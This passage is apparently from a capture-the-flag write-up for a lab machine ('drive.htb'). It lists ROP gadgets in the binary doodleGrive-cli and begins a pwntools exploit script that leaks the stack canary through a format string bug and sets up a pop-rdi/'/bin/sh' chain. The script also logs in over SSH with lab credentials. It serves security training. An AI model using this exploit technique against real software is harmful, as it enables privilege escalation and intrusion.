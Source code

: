     [INFO] File: ./doodleGrive-cli
    0x000000000044734d: pop rdi; add eax, dword ptr [rax]; add byte ptr [rax - 0x7d], cl; ret 0x4910; 
    0x00000000004569a0: pop rdi; call rax; 
    0x00000000004569a0: pop rdi; call rax; mov rdi, rax; mov eax, 0x3c; syscall; 
    0x00000000004675cd: pop rdi; idiv esi; jmp qword ptr [rsi + 0x2e]; 
    0x0000000000436eb9: pop rdi; in al, dx; mov qword ptr [rdi - 0xc], rcx; mov dword ptr [rdi - 4], edx; ret; 
    0x0000000000436cc9: pop rdi; in eax, dx; mov qword ptr [rdi - 0xb], rcx; mov dword ptr [rdi - 4], edx; ret; 
    0x000000000042831d: pop rdi; jmp rax; 
    0x000000000041935f: pop rdi; or byte ptr [rbx - 0x76fefbb9], al; ret 0xe281; 
    0x0000000000410a40: pop rdi; or eax, dword ptr [rax]; syscall; 
    0x0000000000436ae9: pop rdi; out dx, al; mov qword ptr [rdi - 0xa], rcx; mov dword ptr [rdi - 4], edx; ret; 
    0x0000000000436919: pop rdi; out dx, eax; mov qword ptr [rdi - 9], r8; mov dword ptr [rdi - 4], edx; ret; 
    0x0000000000436a15: pop rdi; out dx, eax; mov qword ptr [rdi - 9], rcx; mov byte ptr [rdi - 1], dl; ret; 
    0x0000000000436961: pop rdi; out dx, eax; mov qword ptr [rdi - 9], rcx; mov dword ptr [rdi - 4], edx; ret; 
    0x0000000000403a4b: pop rdi; pop rbp; ret; 
    0x0000000000401912: pop rdi; ret; 



The last one looks perfect. And 0x401913 (one byte after) is just `ret`.

#### Exploit

I'll generate the following script:



    from pwn import *

    elf = ELF("./doodleGrive-cli")

    # addresses
    pop_rdi = p64(0x401912) # ropper -f ./doodleGrive-cli --search "pop rdi"
    ret = p64(0x401913)     # just return from previous
    bin_sh = p64(0x497cd5)  # strings -a -t x doodleGrive-cli | grep bin/sh

    if args.SSH:
        ssh = ssh(host="drive.htb", user="tom", password="johnmayer7")
        p = ssh.process("/home/tom/doodleGrive-cli")
        prompt = ""
    else:
        p = elf.process()
        prompt = "$ "

    #gdb.attach(p, """break *0x40229c\nc\n""")

    # format string vuln to leak canary
    p.readuntil(b"Enter Username:\n")
    p.sendline(b"%15$lx")
    p.readuntil(b"Enter password for ")
    leak = p.readuntil(b":\n").strip(b"\n:")
    canary = int(leak, 16)
    info(f"Leak canary: 0x{canary}")
